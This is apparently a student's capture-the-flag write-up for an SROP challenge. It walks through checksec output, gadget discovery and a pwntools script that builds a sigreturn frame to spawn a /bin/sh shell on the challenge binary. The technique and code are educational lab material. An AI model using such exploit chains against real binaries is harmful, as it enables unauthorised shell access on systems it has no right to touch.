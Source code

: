 # SROP:Solution

The binary is compiled with NX and Partial RELRO
```
pwn checksec chal.bin                                                               
[*] '/root/workspace/vuln/srop/chal/chal.bin'                                  
    Arch:     amd64-64-little                                                  
    RELRO:    Partial RELRO                                                    
    Stack:    No canary found                                                 
    NX:       NX enabled                                                       
    PIE:      No PIE (0x400000)
```

and is dynamically linked to GLIBC.
```
ldd chal.bin
    linux-vdso.so.1 (0x00007ffc653d1000)
    libc.so.6 => /lib64/libc.so.6 (0x00007f432a200000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f432a463000)
```

First we have to find the primitives we'll need. We want to use the syscall 15 which is sys_rt_sigreturn. In order to get the number 15 we can use strlen on a string that is 15 long, or in this case the address of one length 17 + 2 which moves it over and changed it to 15. We can use rabin2 to get the address of a /bin/sh in memory.

```
syscall = r.find_gadget(['syscall'])[0]
str_15 = 0x4020c9 + 2		# 17 -2
bin_sh = 0x4011ba
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
ret = pop_rdi + 1
```

Then we create our fake frame. This is basically just and execve call with the parameter of /bin/sh.
```
''' execve(/bin/sh) '''
frame = SigreturnFrame()
frame.rax = constants.SYS_execve # rax = sys_execve (0x3b)
frame.rdi = bin_sh		 # rdi = fake stack (0x41500)->/bin/sh
frame.rsi = 0x0			 # rsi = NULL (0x0)
frame.rdx = 0x0			 # rdx = NULL (0x0)
frame.rip = syscall
```
We create the padding for the buffer and base pointer and then align the stack.
```
chain = b'A' * 16 		 # buffer + base pointer
chain += p64(ret)
```

Then we pop rdi so that we can fill it with the string to run strlen on.
```
chain += p64(pop_rdi)		 # pop rdi ret
chain += p64(str_15)		 # filled rdi
chain += p64(e.sym['strlen'])	 # calling strlen so 15 is in rax
```

Last we add the syscall and the fake frame and send the chain.
```
chain += p64(syscall)		 # syscall 15
chain += bytes(frame)

p.sendline(chain)		

p.interactive()
```

We have our flag!
```
flag{ev3ry1_G0t_th3iR_cHains_2br3aK}
```

Resources:
* Class slides
* Demo solve script
* Louie
* https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/
